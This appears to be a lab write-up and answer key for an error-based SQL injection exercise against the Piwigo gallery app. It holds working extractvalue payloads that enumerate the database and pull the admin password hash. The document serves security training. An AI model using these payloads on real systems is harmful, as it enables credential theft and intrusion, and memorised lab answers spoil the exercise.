





# **SQL Injection Case Study**

## **Error-based SQLi in Piwigo**

### **Accessing Piwigo**
#### **Lab 1.** Start the Piwigo VM and and verify you can access the application. What is the value of the X-Powered-By header?

Answer - PHP/7.4.15




### **Exploiting Error-based SQL Injection**
#### **Lab 2.** Using the techniques outlined above, extract the full password hash for the admin user.

Answer - >$P$Ghxmchgk.0YxEQutC7os3dZfBvqGIz/

- Find the injection point. User-> Manage.
Here order[0][dir]=asc is vulnerable to sql injection.

Payload: `order[0][dir]=asc'`




- Use the group_concat() function to extract the schema names from 
information_schema.tables. 
Here you can find the database schema name is piwigo.
```
asc, extractvalue('',concat('>',(
    select group_concat(table_schema) 
    from (
      select table_schema 
      from information_schema.tables 
      group by table_schema) 
    as foo)
    )
  )
```



- Now extract table names from piwigo database schema.
```
asc, extractvalue('',concat('>',(
  select group_concat(table_name) 
  from (
    select table_name from information_schema.tables
    where table_schema='piwigo') 
  as foo)
  )
)
```
The output of the XPATH error only displays 32 characters.


- Use the OFFSET keyword to specify the starting offset value along with a LIMIT.
```
asc, extractvalue('',concat('>',(
	select group_concat(table_name) 
	from (
		select table_name 
		from information_schema.tables 
		where table_schema='piwigo' 
		limit 2 offset 2) 
	as foo)
	)
)
```
- Since we are limiting the potential output to two tables at a time, we will need to submit this payload multiple times.
We can find the table name - piwigo_users
```
asc, extractvalue('',concat('>',(
	select group_concat(table_name) 
	from (
		select table_name 
		from information_schema.tables 
		where table_schema='piwigo' 
		limit 2 offset 32) 
	as foo)
	)
)
```


- The piwigo_users table might contain passwords or other sensitive user information. Let's try to extract data from it.
```
asc, extractvalue('',concat('>',(
	select group_concat(column_name) 
	from (
		select column_name 
		from information_schema.columns 
		where table_schema='piwigo' and table_name='piwigo_users') 
	as foo)
	)
)
```



- We are able to identify a "password" column. We don't know how long the password field is, but the XPATH syntax error limits output to 32 characters.
We can use the SUBSTRING() function to work around this limit.
```
asc, extractvalue('',concat('>',(select substring(password,1,32) from piwigo_users limit 1 offset 0)))
```

- We have obtained part of a password value. The "$P$" characters at the start of the password indicate this is a password hash.


- We'll need to update our query to extract the next 32 characters to get the full password hash.

```
asc, extractvalue('',concat('>',(select substring(password,32,64) from piwigo_users limit 1 offset 0)))
```



Now we have receive the full hashed password is ">$P$Ghxmchgk.0YxEQutC7os3dZfBvqGIz/".